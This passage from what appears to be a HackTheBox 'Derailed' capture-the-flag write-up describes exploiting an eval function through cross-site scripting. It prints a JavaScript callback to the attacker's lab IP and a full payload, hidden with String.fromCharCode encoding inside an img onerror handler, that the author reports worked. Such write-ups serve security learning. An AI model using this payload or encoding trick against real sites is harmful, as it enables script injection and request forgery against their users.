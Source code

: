 Given that we can execute basic web requests using our username, the next step is to figure out how to redirect the user to a specific location. We can exploit the eval function to inject malicious JavaScript code.

To begin, I created a basic script that will callback to our machine. From here, we can proceed with implementing the ```CSRF``` strategy and crafting the necessary malicious ```JavaScript``` code for our exploit.

```javascript
var xmlHttp = new XMLHttpRequest();
xmlHttp.open("GET", "http://10.10.14.199/stringcallback", false);
xmlHttp.send(null);
```
I attempted Base64 encoding initially, but unfortunately, it didn't yield the desired results. Instead, I switched to Char Coding, which involves translating all the characters within my script into their corresponding ASCII letters. 
i use this site for encoding : [```Character Code Finder```](https://www.mauvecloud.net/charsets/CharCodeFinder.html)


The payload becomes this:

```bash
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa<select<style/><img src='http://10.10.14.199/EmSec_image' onerror="eval(String.fromCharCode(118, 97, 114, 32, 120, 109, 108, 72, 116, 116, 112, 32, 61, 32, 110, 101, 119, 32, 88, 77, 76, 72, 116, 116, 112, 82, 101, 113, 117, 101, 115, 116, 40, 41, 59, 10, 120, 109, 108, 72, 116, 116, 112, 46, 111, 112, 101, 110, 40, 34, 71, 69, 84, 34, 44, 32, 34, 104, 116, 116, 112, 58, 47, 47, 49, 48, 46, 49, 48, 46, 49, 52, 46, 49, 57, 57, 47, 115, 116, 114, 105, 110, 103, 99, 97, 108, 108, 98, 97, 99, 107, 34, 44, 32, 102, 97, 108, 115, 101, 41, 59, 10, 120, 109, 108, 72, 116, 116, 112, 46, 115, 101, 110, 100, 40, 110, 117, 108, 108, 41, 59))">
```

This payload worked! I was able to retrieve two callbacks after creating the clipnote.

<img src="https://raw.githubusercontent.com/Mostafatoumi/Mostafatoumi.github.io/main/assets/img/favicons/HackTheBox/Derailed/10.png" >
